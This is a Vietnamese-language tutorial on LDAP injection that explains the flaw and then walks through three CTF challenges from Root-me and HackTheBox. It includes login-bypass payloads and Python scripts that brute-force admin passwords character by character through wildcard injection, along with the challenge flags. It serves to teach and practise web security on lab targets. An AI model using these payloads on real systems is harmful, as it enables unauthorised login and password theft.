# LDAP Injection

## 1. LDAP là gì?
LDAP (Lightweight Directory Access Protocol) là một **protocol** dạng client-sever cho phép ứng dụng có thể querry thông tin trong thư mục một cách nhanh chóng\
LDAP còn có thể được sử dụng để **authentication**
>Điểm khác nhau của LDAP và SQL: LDAP là protocol dùng để truy cập thông tin trong thư mục còn SQL là ngôn ngữ truy vấn dùng cho database

## 2. LDAP Injection
LDAP Injection là một lỗ hỏng xảy ra khi câu truy vấn LDAP được concat với untrusted data từ input người dùng nhập vào mà không có bất kỳ biện pháp filter hay validate nào.\
Ví dụ câu truy vấn authentication sau: 
```LDAP
find("(&(user=" + username +")(userPassword=" + pass +"))")
```
Câu truy vấn trên sẽ tìm người dùng có tên là username và mật khẩu là pass, nếu ``(user=" + username +")`` và ``(userPassword=" + pass +")`` nhập vào là đúng, tìm được người dùng và đăng nhập thành công.\
Tuy nhiên nếu nhập vào ``username=*`` và ``pass=*`` thì câu truy vấn sẽ thành:
```
find("(&(user=*)(userPassword=*))")
```
``*`` trong LDAP là wildcard tượng trưng cho mọi ký tự hay cụ thể trong câu querry trên nó tương tự như "select all", nó sẽ trả về danh sách của tất cả người dùng.\
Còn nều ta nhập vào ``username=*)(user=*))(|(user=*`` thì câu querry sẽ thành
```
find("(&(user=*)(user=*))(|(user=*)(userPassword=" + pass +"))")
```
Câu lệnh trên sẽ luôn trả về True, ta có thể dùng nó để bypass authentication
> Giải thích : \
Đoạn ``(&(user=*)(user=*))`` yêu cầu 
cả 2 vế ``user=*`` đều phải bằng True do có toán tử ``& (AND)`` . Tuy nhiên ``user=*`` nghĩa là select all nên mặc định nó luôn đúng suy ra ``(&(user=*)(user=*))`` sẽ luôn dúng\
Đoạn ``((|(user=*)(userPassword=" + pass +"))`` sẽ yêu cầu 1 trong  2 vế ``(user=*)`` là True hoặc ``(userPassword=" + pass +"))`` là True vì nó sử dụng toán tử ``|(OR)``. Mà ``user=*``  luôn đúng nên đoạn truy vấn này luôn đúng

## 3. Một số kiểu LDAPi
#### A. Login bypass LDAPi
Đầu tiên là login bypass LDAPi, chính là ví dụ ở trên đã minh họa. Ta có thể sử dụng toán tử ``&(AND)`` hoặc toàn tử ``|(OR)`` để bypass\
Sử dụng toán tử ``&(AND)``
```
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&)) //cụm (&) là luôn luôn True
```
Sử dụng toán tử ``|(OR)``
```
user=*)(|(&
pass=aaa)
--> (&(user=*)(|(&)(pass=aaa))
```
#### B. AND LDAPi và OR LDAPi
AND LDAPi là thực hiện LDAPi vào câu truy vấn LDAP có sẳn toán tử ``&`` ở đầu\
Ví dụ:
```
(&(user=value1)(password=value2))
```
Còn OR LDAPi là thực hiện LDAPi vào câu truy vấn LDAP có sẳn toán tử ``|`` ở đầu\
Ví dụ:
```
(|(user=value1)(password=value2))
```
### C.Blind LDAPi
Tương tự như Blind SQLi thì Blind LDAPi là dạng mà respone tiết lộ rất ít thông tin, thông thường response chỉ trả về True hoặc False hoặc chỉ hiện thông báo lỗi\
Ví dụ ta muốn brute force pass của admin, ta biết câu querry có dạng như sau:
```
(&(username=admin)(password='input'))
```
Khi nhập sai pass response chỉ hiện về thông báo sai mật khẩu\
Ta tiến hành brute force với payload sau:
```
(&(username=admin)(password=*))    : OK
(&(username=admin)(password=A*))   : KO
(&(username=admin)(password=B*))   : KO
...
(&(username=admin)(password=M*))   : OK
(&(username=admin)(password=MA*))  : KO
(&(username=admin)(password=MB*))  : KO
...
```
Cứ như vậy ta tìm được pass của admin

Ngoài ra cũng có ``and blind LDAPi`` và or ``blind LDAPi``. Ở ví dụ trên chính là and blind LDAPi, blind LDAPi mà querry có sẳn ``&``. Còn or blind LDAPi thì querry có sẳn ``|`` 

## 4. CTF Example
### A. LDAP injection - Authentication (Root-me) 

Bài này cung cấp cho ta một form login

Ta thử nhập username và password bất kỳ

Tiêu đề bài gợi ý cho ta về LDAPi ta thử nhập ``username=*`` và ``password=*``

Như vậy ``*`` đã bị filter, ta thử nhập ``username=)`` và ``password=)``

Ta nhận về error syntax của LDAP và biết được cấu trúc của câu lệnh querry, nó sẽ kiểm tra uid là ``username`` và userPassword là ``password``. Ta dùng toàn tử ``&`` để bypass với payload như sau:
```
user=*)(&
password=*)(&
--> (&(uid=*)(&)(userPassword=*)(&) // luôn luôn trả về True
``` 


Paylaod inject thành công ta chỉ cần mở source lên và nhìn flag
> **FLAG**: SWRwehpkTI3Vu2F9DoTJJ0LBO

### B. LDAP injection - Blind (Root-me)
Challenge cho ta một trang login dùng method POST và một trang search email người dùng dùng method GET.\
Lướt qua trang login, ta thấy form sẽ gửi đi ``username`` và ``password`` ,ta dùng thử các payload thông thường nhưng dường như đều bị filter.\
Thử nhập một input bất kỳ trong trang ``search`` ta nhận được:

Ta thấy có một user là admin, ta thử nhập input là ``admin`` :

Từ respone ta dự đoán câu truy vấn LDAP có thể có dạng:
```
(&(sn=*)(email=input))
```
Tuy nhiên khi thử với các input khác, khi input là ```d``` thì output  vẫn cho ra kết quả:

Điều này cho ta một manh mối rằng trước và sau ``input`` sẽ có ``*`` bởi vì nếu search ``d`` thì vẫn tìm thấy ``admin``. Từ đó suy ra câu lệnh truy vấn sẽ có dạng
```
(&(sn=*)(email=*input*))
```
Bài này yêu cầu ta tìm password của admin, vì thế ta sẽ lợi dụng câu truy vấn này để brute force
> Idea: Ta sẽ thêm trường password vào câu lệnh truy vấn, và dùng ``*`` để brute force từng ký tự trong password, nếu ký tự đó có mặt trong password thì respone sẽ trả về email của admin

Payload sẽ có dạng:
```
..../?action=dir&search=admin*)(password=a*    -> Sai
..../?action=dir&search=admin*)(password=b*    -> Sai
..../?action=dir&search=admin*)(password=c*    -> Sai
..../?action=dir&search=admin*)(password=d*    -> Đúng
..../?action=dir&search=admin*)(password=da*   -> Sai

....
....
```
Cứ thế brute force đến khi nào tìm thấy password\
Script brute force:
```python
import requests
import string
from bs4 import BeautifulSoup

wordlist = string.ascii_letters
wordlist += "".join(['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '`', '~', '!', '@', '$', '%', '-', '_', "'", '{', '}']) 
url = "http://challenge01.root-me.org/web-serveur/ch26/?action=dir&search=admin*)(password="

flag = ""
while True:
    for c in wordlist:
        sendUrl = url+c
        res = requests.get(sendUrl)
        suop = BeautifulSoup(res.text, "html.parser")

        print("Try pass [*]", c)

        if(suop.p.get_text()[0:1] == '1'):
            flag += c
            url += c
            print("Pass[*]:", flag)
            break
    else:
        break
print("Final pass:",flag)
```
>**Giải thích:** đoạn ``suop.p.get_text()[0:1] == '1'`` là lấy nội dung của respone từ tag ``<p>`` sau đó cắt lấy đoạn đầu. Nếu nó bằng 1 nghĩa là response trả về 1 result là admin -> trường hợp này đúng, sau đó thêm ký tự đang test vào flag

>**FLAG:** dsy365gdzerzo94

### C. Phonebook (HackTheBox)
Đầu tiên trang web cho ta một form đăng nhập, và một lời nhắn từ Reese, ta đoán có thể Reese là admin
\
Khi ta thử đăng nhập với input bất kỳ thì nó trả về ``message=Authentication failed`` trong url
\
Thử đăng nhập với ``username=*`` và ``password=*`` thì ta sẽ đăng nhập thành công và redirect ta qua trang ``/``
\
Trang ``/``
\
Sau một hồi vọc vạch thì ta thấy trang này chỉ có chức năng search email thông thường và có vẻ không thể khai thác được gì từ đây. Nhưng trang này cho ta biết có ``username=Reese`` tức là username của admin là ``Reese``\
Quay trở lại trang ``login`` ta sẽ thực hiện brute force tìm password của admin (Reese)
Payload sẽ có dạng:
```
username=Reese&password=a*   --> message=Authentication failed
username=Reese&password=b*   --> message=Authentication failed
...
username=Reese&password=H*   --> OK
username=Reese&password=Ha*  --> message=Authentication failed
...
```
Cứ như vậy ta tìm được pass của admin, và pass của admin cũng chính là flag của challange này
Script brute force
```python
import requests
import string

wordlist = string.ascii_letters
wordlist += "".join(['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '`', '~', '!', '@', '$', '%', '&', '-', '_', "'", '{', '}']) 
url = "http://178.128.173.79:30886/login"

flag = ""
while True:
    for c in wordlist:
        data = {'username': 'Reese', 'password': flag+c+'*'}
        print("Try[*]:",data)

        resp = requests.post(url, data)
        if resp.url[-6:] != "failed":
            flag+=c
            break
    else:
        break  
print(flag)
```
\
>**FLAG:** HTB{d1rectory_h4xx0r_is_k00l}


